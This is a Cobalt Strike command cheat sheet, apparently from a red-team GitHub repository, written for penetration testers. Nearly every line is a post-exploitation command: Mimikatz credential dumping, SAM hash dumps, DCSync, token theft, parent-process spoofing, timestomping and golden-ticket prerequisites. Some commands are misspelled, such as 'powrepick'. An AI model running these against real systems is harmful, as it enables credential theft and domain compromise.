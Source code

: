 <p align="center">
  <img width="700" height="150" src="https://github.com/bigb0sss/RedTeam/blob/master/01-CobaltStrike/cs_logo.png">
</p>

## Command References

### Beacons
#### Sleep
```css
sleep 60 50               ; Sleep 60 sec with 50% of jitter (Call back between 30 to 60 secs randomly) 
```

#### Command Execution
##### Default
```css
run [command]
```
##### powershell.exe
```css
powershell-import [/path/to/your.ps1]       ; Running it from your localhost
powershell [cmdlet] [args]
```
##### powerpick (Using PS w/o powershell.exe)
```css
powrepick [cmdlet] [args]
```

##### psinject (Using PS within another process)
```css
psinject [PID] [x86|x64] [cmdlet] [args]
```

##### .NET
```css
execute-assembly [/path/to/your.exe]        ; Running it from your localhost
```

##### cmd.exe
```css
shell [command] [args]
```

#### Session Passing
```css
spawn [x86|x64] [Listener]
inject [PID] [x86|x64] [Listener]
```

#### Parent Process Modification
```css
ppid [Choice of your parent process (e.g., iexplore.exe)]
spawnto [x86|x64] [New parent process]
```

#### SMB Beacn
```css
spawn [SMB-Listner-Name]                    ; Spawning a peer-to-peer ("P2P") SMB beacon 
inject [PID] [x86|x64] [SMB-Listner-Name]   ; Useful when trying to spawn P2P beacon as different user context
```

#### TCP Beacn
```css
spawn [TCP-Listner-Name]                    ; Spawning a peer-to-peer ("P2P") TCP beacon 
                                            ; TCP beacons can be also run locally by clicking "Bind to localhost only" on GUI
inject [PID] [x86|x64] [TCP-Listner-Name]   ; Useful when trying to spawn P2P beacon as different user context
```

#### Credentials and Hashes
```css
logonpasswords                              ; Run Mimikatz
hashdump                                    ; Get SAM database hashes
```

#### Mimikatz
```css
mimikatz [command] [args]                   ; Runs a Mimikatz command
mimikatz ![command] [args]                  ; Elevate to SYSTEM and run Mimikatz command
mimikatz @[command] [args]                  ; User current token to run Mimikatz command
```
#### DCSync
```css
dcsync [domain] [DOMAIN\user]
```

#### File Download
```css
download [file]
cancel [file|*]
downloads
View --> Downloads --> Sync Files
```

#### File Upload
```css
upload [/path/to/file]
timestomp [Destination] [Source]            ; Changing file's timestamps (*Do not recommend using it during the engagement) 
```

#### Token Stealing
```css
ps                                          ; List process
steal_token [PID]                           ; Stealing token
getuid                                      ; Identify/confirm who you are
rev2self                                    ; Drop/revoke token

spawnas DOMAIN\user password                ; Spawn a beacon w/ alternative creds
make_token DOMaIN\user password             ; Create a token. So when you do a make_token, when you do 'whoami' you will 
                                            ; still see your current user account; however, if you do a remote 'whoami' 
                                            ; (maybe against DC) you will see that the maked token user.
```

#### Kerberos Tickets
```css
klist                                       ; See your current Kerberos tray 
kerberos_ticket_purge                       ; Purge tickets
kerberos_ticket_user [/path/to/file.ticket] ; Load a ticket

<Golden Ticket>
- Desired user and DOMAIN name
- Domain SID [whoami /user + drop last number]
- NTLM hash of krbtgt user from DC
```
